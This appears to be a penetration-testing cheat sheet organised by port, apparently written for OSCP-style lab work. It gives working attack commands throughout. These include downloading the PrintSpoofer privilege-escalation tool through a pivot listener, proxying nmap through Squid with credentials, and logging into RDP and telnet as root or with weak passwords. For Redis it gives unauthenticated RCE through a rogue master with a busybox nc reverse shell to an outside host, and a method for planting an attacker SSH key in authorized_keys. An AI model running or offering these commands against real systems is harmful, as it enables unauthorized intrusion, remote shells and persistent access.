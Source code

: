 
```jsx
[Agent : OSCP\web_svc@MS01] » listener_add --addr 0.0.0.0:8082 --to 0.0.0.0:8081 --tcp
//transfer file
python3 -m http.server 8081 #klai
iwr -uri http://10.10.185.147:8082/PrintSpoofer64.exe -Outfile PrintSpoofer64.exe 
```

### 2323 LANDesk remote management

```jsx
telnet 172.16.221.31 2323
login:root
```

### 3000 Aerospike

### 3128 - Squid

```jsx
//add following line to /etc/proxychains4.conf
http 192.168.1.1 3128 ext_acc Passw0rd!

proxychains nmap -sT -Pn 172.16.231.31  --min-rate 500
foxyproxy extension for firefox
```

### 3387 - Alternative port for Rdp

```jsx
xfreerdp cpub-SkylarkStatus-QuickSessionCollection-CmsRdsh.rdp  /u:kiosk /p:password /d:skylark.com /v:192.168.1.1
```

### 5985 - Winrm

### 6379 - Redis

4.x / 5.x RCE without username and password(tested on 5.0.9)

> https://github.com/vulhub/redis-rogue-getshell
> 

> https://www.rapid7.com/db/modules/exploit/linux/redis/redis_unauth_exec/ (metasploit)
> 

```jsx
cd ./RedisModulesSDK && make
python3 redis-master.py -r 192.168.243.1 -p 6379 -L 192.168.45.1 -P 6379 -f RedisModulesSDK/exp.so -c "busybox nc 192.168.1.1 8080 -e /bin/sh"
```

If we have username, we can get user's ssh path with command `config get dir` and set dir to ssh directory

```jsx
$ ssh-keygen -t rsa
$ (echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > pub.txt
$ cat pub.txt | redis-cli -h <IP> -x set ssh_key
$ redis-cli -h <IP>
> config set dir /var/lib/redis/.ssh
OK
> config set dbfilename "authorized_keys"
OK
> save
OK
```
